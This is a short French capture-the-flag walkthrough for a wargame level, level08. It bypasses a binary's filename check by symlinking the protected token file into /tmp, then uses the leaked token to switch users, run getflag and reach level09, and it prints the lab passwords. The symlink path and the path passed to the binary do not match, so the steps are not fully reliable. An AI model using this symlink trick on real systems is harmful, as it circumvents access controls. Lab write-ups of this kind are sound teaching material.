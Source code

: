 ## 1. Analyser le fichier binaire level08

    ./level08 [file to read]

Attend un fichier en arg, mais nous n'avons pas l'autorisation d'ouvrir le fichier token.

## 2. Lien symbolique

    ln -s /home/user/level08/token /tmp/result

    ./level08 /tmp/test
    Cela affiche: quif5eloekouj29ke0vouxean

## 3. Connexion

su flag08

    Mot de passe : quif5eloekouj29ke0vouxean
    Commande pour obtenir le flag : getflag
    Résultat : 25749xKZ8L7DkSCwJkT9dyv6f

su level09

    Mot de passe : 25749xKZ8L7DkSCwJkT9dyv6f